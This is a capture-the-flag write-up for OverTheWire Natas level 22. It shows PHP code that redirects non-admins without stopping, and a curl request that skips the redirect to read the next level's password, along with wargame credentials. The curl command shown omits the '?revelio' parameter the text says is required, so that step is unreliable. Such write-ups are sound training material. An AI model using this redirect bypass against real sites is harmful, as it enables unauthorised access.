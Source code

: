 # Over The Wire -- Natas 22

## Server URL
```
http://natas22:chG9fbe1Tq2eWVMgjYYD1MsfIvN461kJ@natas22.natas.labs.overthewire.org
```

## Solution
We don't have any output on the page.

The php source code is 
```php
<?
session_start();

if(array_key_exists("revelio", $_GET)) {
    // only admins can reveal the password
    if(!($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1)) {
    header("Location: /");
    }
}
?>


<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas22", "pass": "<censored>" };</script></head>
<body>
<h1>natas22</h1>
<div id="content">

<?
    if(array_key_exists("revelio", $_GET)) {
    print "You are an admin. The credentials for the next level are:<br>";
    print "<pre>Username: natas23\n";
    print "Password: <censored></pre>";
    }
?>

<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

Passing the `?revelio` query parameter show the password.
However, if the session is not set for admin, we are redirected to the home page.

We can simply curl the page and get the response without redirection
```
curl http://natas22:chG9fbe1Tq2eWVMgjYYD1MsfIvN461kJ@natas22.natas.labs.overthewire.org
```

We get Natas23 password :
```
D0vlad33nQF0Hz2EP255TP5wSW9ZsRSE
```
